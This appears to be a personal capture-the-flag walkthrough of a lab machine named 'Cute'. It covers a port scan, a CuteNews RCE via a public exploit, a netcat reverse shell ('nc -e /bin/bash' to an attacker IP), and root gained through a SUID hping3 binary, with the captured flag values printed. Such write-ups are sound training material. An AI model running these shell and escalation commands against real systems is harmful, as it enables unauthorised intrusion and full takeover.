 # Cute

IP Address
![[Pasted image 20220505202131.png]]
```text
192.168.1.191
```
# Open ports
```open ports
22/tcp  open  ssh      syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp  open  http     syn-ack ttl 64 Apache httpd 2.4.38 ((Debian))
88/tcp  open  http     syn-ack ttl 64 nginx 1.14.2
110/tcp open  pop3     syn-ack ttl 64 Courier pop3d
995/tcp open  ssl/pop3 syn-ack ttl 64 Courier pop3d
```

## Port 80
Apache 2.4.38
![[Pasted image 20220505202925.png]]


### Cute PHP/ Cute news

Looks like some kind of php sandbox
![[Pasted image 20220505203313.png]]

Software name
![[Pasted image 20220505203334.png]]

Captcha 
![[Pasted image 20220505203352.png]]

Login screen
![[Pasted image 20220505203423.png]]

Some migration page
![[Pasted image 20220505203520.png]]

Failed login; username disclosure
![[Pasted image 20220505203818.png]]

## CVE-2019-11447
[EDB-48800](https://www.exploit-db.com/exploits/48800) is an RCE exploit for Cute 2.1.2.

I had to remove `/CuteNews/` from all the URL strings. But then it gave this shell as `www-data`

![[Pasted image 20220506052027.png]]

### Get a better shell
```bash
nc -e /bin/bash 192.168.1.112 4444
```

```python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
export TERM=xterm
```


# User flag
Becasue of bad file permissions, I am able to get the user flag as `www-data`
```
dcb8189a0eaf7a690a67785a7299be60
```

![[Pasted image 20220506052448.png]]


# Linpeas findings
Internal only ports
![[Pasted image 20220506053133.png]]

No password sudo for `www-data`
![[Pasted image 20220506053210.png]]

# Privesc

`hping3` has the SUID bit set.
https://gtfobins.github.io/gtfobins/hping3/#suid

run the SUID binary
```bash
/usr/sbin/hping3
```

Break out into root shell
```bash
/bin/sh -p
```

![[Pasted image 20220506054458.png]]



# Root Flag
```
0b18032c2d06d9e738ede9bc24795ff2
```

![[Pasted image 20220506054605.png]]